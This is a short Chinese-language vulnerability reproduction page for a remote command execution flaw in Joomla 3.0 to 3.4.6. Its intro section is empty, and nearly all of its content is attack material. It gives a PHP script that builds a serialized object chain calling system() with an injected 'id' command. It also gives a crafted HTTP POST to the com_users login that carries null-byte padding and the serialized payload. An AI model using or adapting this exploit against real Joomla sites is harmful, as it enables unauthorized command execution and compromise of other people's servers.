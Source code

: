 ```yaml
---
title: Joomla 3-3.4.6 远程命令执行漏洞
id: zhfly2995
---
```


# Joomla 3-3.4.6 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Joomla 3-3.4.6

PHP < 5.6.13

## 三、复现过程

```
<?php

class JSimplepieFactory {}

class JDatabaseDriverMysql {}

class SimplePie

{

var $feed_url;

var $cache;

var $sanitize;

var $cache_name_function;

```
public function __construct($feed_url, $cache, $sanitize, $cache_name_function)
{
    $this-&gt;feed_url = $feed_url;
    $this-&gt;cache = $cache;
    $this-&gt;sanitize = $sanitize;
    $this-&gt;cache_name_function = $cache_name_function;
} 
```

}

class JDatabaseDriverMysqli

{

protected $obj;

protected $connection;

protected $disconnectHandlers = array();

```
public function __construct($obj, $connection, $disconnectHandlers)
{
    $this-&gt;obj = $obj;
    $this-&gt;connection = $connection;
    $this-&gt;disconnectHandlers = $disconnectHandlers;
} 
```

}

$function = ‘system’;

$argument = ‘[http://www.0-sec.org](http://www.0-sec.org);id’;

// $function = ‘assert’;

// $argument = ‘phpinfo() || “[http://www.0-sec.org](http://www.0-sec.org)”’;

$simplepie = new SimplePie($argument, true, new JDatabaseDriverMysql(), $function);

$jdatabasedrivermysqli = new JDatabaseDriverMysqli(new JSimplepieFactory(), true, array(array($simplepie,‘init’)));

echo urlencode(serialize($jdatabasedrivermysqli)); `?>` 
```

```
POST /Joomla/ HTTP/1.1
Host: www.0-sec.org:8000
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: XDEBUG_SESSION=PHPSTORM; 17511585a4996c48455fa590ab8d4d24=58c7q9ocb6n3q0tjj7m0s3g3i6
Content-Length: 737

CSRF-Token值=1&task=user.login&option=com_users&username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=AAA";s:3:"233":序列化payload 
```